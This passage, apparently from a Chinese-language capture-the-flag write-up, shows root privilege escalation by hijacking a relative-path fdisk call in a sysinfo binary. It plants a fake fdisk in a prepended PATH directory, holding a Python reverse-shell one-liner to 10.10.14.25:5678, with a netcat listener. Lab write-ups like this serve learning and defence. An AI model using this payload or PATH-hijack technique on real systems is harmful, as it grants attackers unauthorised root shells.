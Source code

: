 使用我们前面的 linpeas.sh 结果中列出的一个有趣的二进制文件:/bin/sysinfo，会出现以下序列

我们可以在上面的图片中看到，根操作显示为标识符 UID=0。如果你正在使用 pspy64，这是你最有可能会寻找的东西。

## 劫持 Sysinfo 二进制文件并获取根外壳

我试图劫持被调用的`run-parts`二进制文件，但是，似乎环境变量总是被忽略，新的变量被硬编码到命令中。这样做是为了精确地防止 hijacking⁴.

然而，对于`sysinfo`序列，没有环境变量被初始化，只有相对路径被调用。这意味着我们可以劫持二进制调用的任何命令。

为了实现这一点，我们执行以下操作:

```
$ export PATH=/tmp/mok:$PATH
```

这是为现有的`$PATH`变量添加一个新路径。$PATH 变量包含系统搜索要执行的二进制文件的路径。如果您预先计划了自己的路径，系统将首先直接进入该路径查找要执行的二进制文件，然后遍历变量中列出的其他路径(如果该二进制文件不在前面的路径中)。

我以此为指导:

[](https://www.baeldung.com/linux/path-variable) [## 在 Linux 上向 Linux 路径变量- Baeldung 添加路径

### 在这个快速教程中，我们将关注如何向 Unix PATH 变量添加路径。路径变量是一个环境…

www.baeldung.com](https://www.baeldung.com/linux/path-variable) 

```
$ vi /tmp/mok/fdisk~ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",5678));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

保存后，使用`chmod`使其成为可执行文件。

```
$ chmod +x /tmp/mok/fdisk
```

将会发生的是，当 sysinfo 调用命令`fdisk -l`时，它将直接进入`/tmp/mok`并运行`fdisk`。因为 fdisk 包含我们的反向 shell 有效负载，所以我们只需要设置一个监听器，然后执行 sysinfo 命令。

```
$ nc -nvlp 5678
```

*   攻击机器

```
$ sysinfo
```

*   远程机器

![](img/45fb1aea3cf2f8596af198dcec42687b.png)
